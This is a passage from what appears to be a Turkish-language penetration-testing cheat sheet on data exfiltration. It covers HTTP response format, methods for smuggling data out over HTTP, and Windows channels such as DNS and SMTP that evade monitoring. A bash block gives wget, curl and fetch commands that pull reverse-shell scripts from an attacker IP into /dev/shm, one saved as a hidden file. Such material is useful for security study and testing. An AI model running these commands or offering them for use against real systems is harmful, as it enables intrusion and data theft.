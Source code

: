 - **HTTP Sürümü**: Kullanılan HTTP protokolünün sürümünü belirtir.
- **Durum Kodu**: İsteğin durumunu belirtir. Örneğin, 200 OK (başarılı), 404 Not Found (bulunamadı) gibi.
- **Durum Açıklaması**: Durum kodunun açıklamasını içerir.
- **Başlıklar**: Yanıtla ilgili ek bilgileri içerir. Örneğin, yanıtın zaman damgası, içerik türü vb.

Örnek bir HTTP yanıtı aşağıdaki gibi görünebilir:

```http
HTTP/1.1 200 OK
Date: Sat, 01 Jan 2022 12:00:00 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 1234
```

Bu örnekte, yanıtın HTTP sürümü 1.1 olduğunu ve durum kodunun 200 OK olduğunu belirtir. Yanıt, `Sat, 01 Jan 2022 12:00:00 GMT` tarihinde gönderildi ve içeriği `text/html` türünde ve UTF-8 karakter kodlamasıyla 1234 bayt uzunluğunda olduğunu belirtir.

### HTTP Veri Exfiltration

HTTP, veri exfiltration (bilgi sızdırma) için yaygın olarak kullanılan bir protokoldür. Bir saldırgan, hedef sistemden veri çalmak veya hedef sistemdeki verileri başka bir sunucuya göndermek için HTTP protokolünü kullanabilir.

HTTP veri exfiltration yöntemleri arasında aşağıdakiler bulunur:

- **HTTP GET**: Verileri URL parametreleri veya yolunda gizleyerek GET istekleri kullanmak.
- **HTTP POST**: Verileri POST isteği gövdesinde gizleyerek POST istekleri kullanmak.
- **HTTP Başlıkları**: Verileri HTTP başlıklarında gizlemek.
- **HTTP Yanıtları**: Verileri HTTP yanıtlarında gizlemek.

Saldırganlar, bu yöntemleri kullanarak hassas verileri hedef sistemden çalabilir veya hedef sistemdeki verileri başka bir sunucuya gönderebilir. Bu nedenle, ağ trafiğini izlemek ve anormal HTTP isteklerini veya yanıtlarını tespit etmek önemlidir.
```bash
wget 10.10.14.14:8000/tcp_pty_backconnect.py -O /dev/shm/.rev.py
wget 10.10.14.14:8000/tcp_pty_backconnect.py -P /dev/shm
curl 10.10.14.14:8000/shell.py -o /dev/shm/shell.py
fetch 10.10.14.14:8000/shell.py #FreeBSD
```
**Windows**

Windows işletim sistemi, çeşitli exfiltration (veri dışarı çıkarma) yöntemleri için farklı seçenekler sunar. İşte bazı yaygın kullanılan yöntemler:

- **HTTP/HTTPS**: Verileri HTTP veya HTTPS protokolü üzerinden dışarı çıkarmak için çeşitli araçlar ve teknikler mevcuttur. Bu yöntem, web trafiğini normal bir ağ trafiği gibi göründürebilir ve güvenlik duvarlarını atlatabilir.

- **DNS**: DNS trafiği, genellikle ağ güvenlik duvarları tarafından izlenmez veya filtrelenmez. Bu nedenle, verileri DNS protokolü üzerinden dışarı çıkarmak için kullanılabilir. Örneğin, verileri DNS sorgularına gizleyebilir veya DNS istemcisi olarak çalışan bir araç kullanabilirsiniz.

- **SMTP**: E-posta trafiği, genellikle ağlarda yaygın olarak kullanılan bir protokoldür. Verileri SMTP protokolü üzerinden dışarı çıkarmak için bir e-posta sunucusu veya SMTP istemcisi kullanabilirsiniz.
